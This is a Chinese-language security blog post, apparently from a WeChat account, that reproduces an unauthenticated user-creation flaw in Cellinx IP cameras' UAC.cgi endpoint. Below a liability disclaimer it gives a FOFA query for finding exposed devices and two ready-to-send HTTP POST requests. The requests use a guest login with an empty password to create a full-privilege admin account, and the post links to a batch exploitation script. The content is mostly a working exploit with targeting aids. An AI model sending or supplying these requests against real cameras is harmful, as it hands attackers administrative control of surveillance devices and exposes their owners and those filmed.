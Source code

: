 #  漏洞复现-cellinx 摄像机 uac.cgi 未授权添加用户漏洞（附exp）   
 Yi安全   2024-01-21 12:41  
  
**由于微信公众号推送机制改变了，快来星标不再迷路，谢谢大家！**  
  
****  
免责声明  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
文  
章中敏感信息均  
已做多层打马处理。  
传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行  
负责。  
  
  
  
  
  
 cellinx摄像机    
  
## 一：漏洞描述  
  
        
  
 cellinx   
摄像机  
 uac.cgi   
未授权添加用户漏洞  
  
## 二：网络空间测绘查询  
  
fofa  
```
body="local/NVT-string.js"
```  
## ‍三：漏洞exp  
```
POST /cgi-bin/UAC.cgi?TYPE=json HTTP/1.1
Host: 
Content-Type: application/json; charset=UTF-8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"jsonData":{"username":"guest","password":"","option":"delete_user","data":{"username":"adminqqq"}}}


POST /cgi-bin/UAC.cgi?TYPE=json HTTP/1.1
Host: 
Content-Type: application/json; charset=UTF-8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"jsonData":{"username":"guest","password":"","option":"add_user","data":{"username":"adminqqq","password":"adminqqq","permission":{"is_admin":"1","view":"1","ptz":"1","setting":"1","dout":"1"}}}}
```  
  
****## 四：批量脚本获取  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SiciaJiayvKbnFPQE2jyomJlEh5qjnicuqrRIZ16dlicKWG5mexXT5UNibVicBE26d4ib05rFgBTTrYSr0fHLNql0te81g/640?wx_fmt=png&from=appmsg "")  
```
https://github.com/Y1-K1NG/poc_exp/tree/main/20240121cellinx%20%E6%91%84%E5%83%8F%E6%9C%BA%20uac.cgi%20%E6%9C%AA%E6%8E%88%E6%9D%83%E6%B7%BB%E5%8A%A0%E7%94%A8%E6%88%B7%E6%BC%8F%E6%B4%9EEXP
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SiciaJiayvKbnFPQE2jyomJlEh5qjnicuqrRROjDfAxtwlyRIfx2yfBkPCy2M7Pwd5JG0AvsL6FPjTuUdnJXWbs6fw/640?wx_fmt=png&from=appmsg "")  
  
  
‍  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
  
由于传播、利用本公众号Yi安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Yi安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
好文分享收藏赞一下最美点在看哦  
  
  
  
